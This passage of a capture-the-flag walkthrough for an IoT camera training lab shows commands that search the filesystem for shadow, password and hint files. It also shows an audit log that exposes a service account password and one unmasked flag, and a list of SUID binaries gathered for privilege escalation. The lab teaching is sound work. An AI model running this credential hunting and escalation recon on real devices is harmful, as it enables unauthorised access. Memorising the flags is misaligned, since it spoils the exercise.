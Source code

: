 > 🏁 **FLAG #20 FOUND!**
> **Flag**: FLAG{I***********4}
> **Learning Objective**: Backup file security
> **OWASP IoT**: #8 - Lack of Device Management

#### Shadow File Analysis

```bash
# Look for password hints
find / -name "*shadow*" -o -name "*pass*" -o -name "*hint*" 2>/dev/null
cat /var/log/shadow_hint.txt
```

**Output:**
```
Service Account Password Audit Log
Date: 2024-01-01
Auditor: Security Team

Service account 'camera_svc' password:
Pattern: service_[identifier]
Current: service_FLAG{LEGOLAS10721320}
Status: WEAK - Needs rotation
```

> 🏁 **FLAG #21 FOUND!**
> **Flag**: FLAG{L***********0}
> **Learning Objective**: Password audit trails
> **OWASP IoT**: #1 - Weak Passwords

---

## Phase 5: Privilege Escalation

### SUID Binary Enumeration

#### Understanding SUID Exploitation
SUID (Set User ID) binaries run with the owner's privileges. If owned by root, they can provide privilege escalation.

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null
```

**Output:**
```
/usr/bin/passwd
/usr/bin/su
/bin/mount
/bin/umount
/bin/ping
/tmp/busybox_suid
```
